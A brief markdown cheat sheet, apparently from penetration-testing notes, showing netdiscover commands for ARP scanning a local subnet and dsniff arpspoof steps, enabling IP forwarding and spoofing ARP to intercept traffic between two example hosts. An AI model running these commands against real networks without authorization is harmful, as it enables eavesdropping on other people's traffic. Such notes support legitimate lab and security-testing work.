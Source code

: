 # NetDiscover (ARP Scanning)

```sh
netdiscover -i eth0
```

or

```sh
netdiscover -r x.x.x.0/24
```

## Dsniff Arpspoof

First enable Linux box to act as a router:

`echo 1 > /proc/sys/net/ipv4/ip_forward`

Then run `arpspoof`:

`arpspoof -i <interface> -t <target> -r <host>`

For example, to intercept traffic between targets, use:

`arpspoof -i eth0 -t 192.168.4.11 -r 192.168.4.16`